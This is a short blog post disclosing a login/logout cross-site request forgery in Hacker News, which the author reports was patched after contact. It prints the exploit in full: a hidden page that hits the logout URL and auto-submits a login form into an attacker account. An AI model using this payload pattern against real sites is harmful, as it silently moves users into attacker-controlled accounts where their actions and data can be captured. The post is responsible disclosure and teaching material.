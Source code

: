 ```yaml
---
layout: post
title: "Hacker News CSRF Vulnerability"
description: "How I found a CSRF vulnerability in Hacker News"
category: articles
modified: 2016-02-24
---
```

  
On February 17th, I discovered a session riding vulnerability on the login and logout forms of Hacker News. It was a textbook cross site request forgery (CSRF), triggered by clicking an article posted by the attacker.

The attack worked like this:

    1. Attacker submits a title like "CSRF And You (2008)" with a URL that points to the exploit code.
    2. User clicks on interesting article.
    3. User is logged out of account, silently logged into an attacker-controlled account, and sent to the comments section.
    4. User reads comments section for interesting article.
    5. User does other, more sensitive actions in the attacker-controlled account (apply for YC? change email? add credit card? make brilliant karma-rich submission?).

The exploit code looked like this:

    <body onload="document.getElementById('csrf_demo').submit()" style="display:none;">
      <img src="https://news.ycombinator.com/logout" />
      <form id="csrf_demo" action="https://news.ycombinator.com/login" method="post">
        <input name="goto" value="item?id=11122018">
        <input name="acct" value="csrf">
        <input name="pw" value="password">
      </form>
    </body>

I contacted Dan at Hacker News and the team immediately patched the vulnerabilities. This attack no longer works as described above.

To learn more about CSRF and how to protect your site against attacls like this one, read Jeff Atwood's excellent [CSRF and You (2008)](http://blog.codinghorror.com/cross-site-request-forgeries-and-you/) and review the [OWASP Wiki on CSRF](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)). 

[Disclosure](https://news.ycombinator.com/security.html)